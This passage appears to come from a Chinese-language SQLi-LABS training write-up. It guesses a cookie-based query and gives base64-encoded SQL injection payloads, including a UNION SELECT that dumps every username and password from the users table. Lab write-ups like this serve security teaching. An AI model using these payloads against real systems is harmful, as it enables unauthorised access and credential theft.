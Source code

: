 + 这里我们可以猜测该SQL语句可能为：

```sql
select column1, column2, ... form table where cookie = ('$cookie') limit 0, 1;
```

+ 现在我们就要开始构造payload进行攻击了。

```sql
YWRtaW4nKSAtLSA=
# 上面内容不懂是什么可以看右侧。解密后的数据。
```

![image-20211016205711586](../../images/SQLi-LABS/image-20211016205711586.png)

+ 接下来把Less-20的payload改一下就可以了。

```sql
JykgdW5pb24gc2VsZWN0IDEsKHNlbGVjdCBncm91cF9jb25jYXQodXNlcm5hbWUpIGZyb20gdXNlcnMpLChzZWxlY3QgZ3JvdXBfY29uY2F0KHBhc3N3b3JkKSBmcm9tIHVzZXJzKSAtLSA=
```
